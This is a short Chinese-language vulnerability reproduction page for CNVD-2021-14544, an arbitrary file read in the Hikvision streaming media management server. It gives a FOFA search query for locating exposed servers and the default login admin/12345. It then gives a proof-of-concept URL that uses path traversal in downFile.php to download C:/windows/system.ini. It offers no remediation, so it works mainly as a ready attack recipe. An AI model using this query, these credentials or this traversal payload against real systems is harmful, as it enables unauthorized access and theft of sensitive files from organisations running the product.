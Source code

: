 # HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> HIKVISION 流媒体管理服务器

## FOFA

> [!NOTE]
>
> title="流媒体管理服务器"

## 漏洞复现

登录页面如下， 默认账号密码为 **admin/12345**

![](http://wikioss.peiqi.tech/vuln/hiv-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

POC如下，访问如下Url下载 system.ini文件

```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```

![](http://wikioss.peiqi.tech/vuln/hiv-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功读取 **C:/windows/system.ini**

